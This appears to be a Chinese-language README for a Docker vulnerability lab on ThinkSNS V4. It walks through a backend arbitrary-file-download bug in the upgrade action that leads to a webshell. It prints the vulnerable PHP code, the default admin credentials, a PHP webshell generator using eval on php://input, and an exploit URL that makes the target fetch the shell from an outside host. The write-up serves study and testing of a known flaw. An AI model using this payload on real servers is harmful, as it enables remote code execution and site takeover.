



## 环境编译

```
docker-compose build
docker-compose up -d
```
## 漏洞介绍

ThinkSNS_V4 后台任意文件下载导致Getshell

默认后台地址：http://127.0.0.1/index.php?app=admin&mod=Public&act=login
默认用户密码：管理员帐号: admin@admin.com 密码:123456


存在漏洞代码\ts4\apps\admin\Lib\Action\UpgradeAction.class.php中的一个函数中。
`
public function step1()
{
    $downUrl = $_GET['upurl'];
    $downUrl = urldecode($downUrl);
    $path = DATA_PATH.'/'.'upgrade/'.basename($downUrl);

    // # 备份老配置文件
    $oldConf = file_get_contents(CONF_PATH.'/thinksns.conf.php');
    file_put_contents(DATA_PATH.'/old.thinksns.conf.php', $oldConf);

    // # 下载增量包
    is_dir(dirname($path)) or mkdir(dirname($path), 0777, true);
    file_put_contents($path, file_get_contents($downUrl));
    file_exists($path) or $this->showError('下载升级包失败，请检查'.dirname($path).'目录是否可写，如果可写，请刷新重试！');

    // 验证hash判断包是否合法。
    $filename = dirname($path).'/upgrade.json';
    $data = file_get_contents($filename);
    $data = json_decode($data, false);
    if (md5_file($path) != $data->md5) {
        $this->showError('更新包校验失败，请重新执行升级.');
    }
`
函数

file_put_contents — 将一个字符串写入文件
file_get_contents — 将整个文件读入一个字符串
在这段函数中，先备份老配置文件，然后下载增量包，下载参数$downUrl未经过任何处理，直接下载到网站目录下，接着验证hash判断包是否合法，但是并没有删除下载的增量包， 导致程序在实现上存在任意文件下载漏洞，下载远程文件到网站目录下，攻击者可指定第三方url下载恶意脚本到网站目录，进一步触发恶意代码，控制网站服务器。

在一台web服务器的根目录下写入

`
<?php
echo "<?php ";
echo "eval(file_get_contents('php://input'));";
echo " ?>";
?>
`
先登录后台

然后访问
**http://127.0.0.1:8001/index.php?app=admin&mod=Upgrade&act=step1&upurl=http://10.0.0.211:81/door.php**



然后会在data\upgrade出现下载的door.php文件。



最后可以代码执行了




[漏洞介绍](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903598&idx=1&sn=597d488c492fca52b49b0f5ddddcadb8&chksm=8b55ddf3bc2254e5135ff7f9a10cdde3ce710e32d53fb4575b02411a9b3bbe23ec26207f8196&mpshare=1&scene=23&srcid=0311KzWTeNcTSxfCLzcIRd7F#rd)

